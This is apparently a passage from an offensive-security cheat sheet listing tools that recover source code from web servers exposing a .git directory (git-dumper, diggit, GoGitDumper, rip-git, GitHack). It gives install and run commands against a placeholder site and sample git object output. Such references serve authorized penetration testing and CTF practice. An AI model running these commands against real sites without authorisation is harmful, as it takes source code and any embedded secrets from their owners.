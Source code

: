 ### Tools

#### Automatic recovery

##### git-dumper.py

```powershell
git clone https://github.com/arthaud/git-dumper
pip install -r requirements.txt
./git-dumper.py http://web.site/.git ~/website
```

##### diggit.py

```powershell
git clone https://github.com/bl4de/security-tools/ && cd security-tools/diggit
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://web.site -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

##### GoGitDumper

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://web.site/.git/ -o yourdecideddir/.git/
git log
git checkout
```

##### rip-git

```powershell
git clone https://github.com/kost/dvcs-ripper
perl rip-git.pl -v -u "http://web.site/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

##### GitHack

```powershell
git clone https://github.com/lijiejie/GitHack
GitHack.py http://web.site/.git/
```
